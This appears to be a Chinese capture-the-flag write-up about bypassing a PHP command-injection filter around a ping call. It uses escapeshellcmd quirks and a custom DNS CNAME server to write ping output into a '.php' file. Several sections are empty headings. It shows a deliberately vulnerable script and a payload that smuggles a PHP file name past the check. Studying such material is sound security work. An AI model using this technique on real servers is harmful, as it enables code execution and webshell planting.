





## Example

```php
<?php
	$ip = $_GET['ip'] ?? exit;
	if (strpbrk($ip, "&;`|*?()$\\\x00") != false) {
        exit("WAF");
    }
	if (stripos($ip, ".php") != false) {
        exit("WAF");
    }
	$ip = escapeshellcmd($ip);
	$ip = str_replace('\>', '>', $ip);
	echo shell_exec('ping -c1 '.$ip);
?>
```

## 突破`stripos`的检查

### escapeshellcmd特性

> [PHP: escapeshellcmd - Manual](https://www.php.net/manual/en/function.escapeshellcmd.php)



## 控制ping返回值



这里的`CNAME`的解释

> 你有两个域名http://a.me和http://b.me，http://b.me指向145.22.3.116，http://a.me指向http://b.me。

### 搭建返回CNAME值的DNS服务

[server.py](dns_cname_server.py)



## 本地DNS影响





## 利用

```php
ping yourdomain.com > 1.ph""p
```

